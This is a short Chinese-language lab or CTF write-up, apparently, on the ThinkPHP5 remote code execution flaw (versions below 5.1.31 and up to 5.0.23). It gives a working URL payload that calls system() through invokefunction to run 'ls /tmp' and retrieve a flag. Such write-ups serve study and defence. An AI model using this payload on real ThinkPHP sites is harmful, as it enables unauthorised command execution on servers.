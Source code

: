 ## 一、漏洞描述
ThinkPHP5 存在远程代码执行漏洞。该漏洞由于框架对控制器名未能进行足够的检测，攻击者利用该漏洞对目标网站进行远程命令执行攻击
## 二、影响产品
上海顶想信息科技有限公司 ThinkPHP 5.*，<5.1.31

上海顶想信息科技有限公司 ThinkPHP <=5.0.23
## 利用过程
访问镜像地址
![](img/1.png)
在其后拼接url
```
/index.php/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=ls /tmp
```
得到flag
![](img/2.png)
